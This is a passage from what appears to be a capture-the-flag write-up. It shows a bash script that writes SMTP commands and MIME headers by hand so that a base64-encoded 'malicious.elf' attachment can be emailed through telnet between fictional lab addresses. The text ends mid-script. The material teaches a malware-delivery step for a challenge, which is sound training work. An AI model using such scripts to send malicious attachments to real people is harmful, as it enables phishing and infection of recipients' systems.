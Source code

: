 ### Sending the malicious attachment

1. Ever since you started the challenge, you might be thinking, how will I send an attachment using telnet? Well, it certainly adds a few more steps but, nothing a quick script can't do. 

2. First of all, to send attachments via telnet, you need to encode the attachments to base 64 and then, also add some headers. Here is an example of an easy script that will do all of this for you: 

```
#!/bin/bash

filename="malicious.elf"
subject="Subject of your email"
txtmessage="Body of your email"
FROM="dilreia@merchant.caste.aurellia"
TO="remy@merchant.caste.aurellia" 


{
sleep 1;
echo "MAIL FROM:<$FROM>"
sleep 1;
echo "RCPT TO: $TO"
sleep 1;
echo "DATA"
sleep 1;
echo "Subject:" $subject
sleep 1;
echo "MIME-Version: 1.0"
sleep 1;
echo "Content-Type: multipart/mixed; boundary="RaNDoMString123__AA_ABCdefghij""
sleep 1;
echo ""
sleep 1;
echo "--RaNDoMString123__AA_ABCdefghij"
sleep 1;
echo "Content-Type: text/plain; charset=iso-8859-1"
sleep 1;
echo "Content-Transfer-Encoding: 8bit"
sleep 1;
echo ""
sleep 1;
echo $txtmessage
sleep 1;
echo ""
sleep 1;
echo ""
sleep 1;
echo "--RaNDoMString123__AA_ABCdefghij"
sleep 1;
echo "Content-Type: application/octet-stream; name="$filename""
sleep 1;
echo "Content-Transfer-Encoding: base64"
sleep 1;
echo "Content-Disposition: attachment; filename="$filename";"
sleep 1;
echo ""
sleep 1;
cat $filename | base64;
sleep 1;
echo ""
sleep 1;
echo ""
sleep 1;
```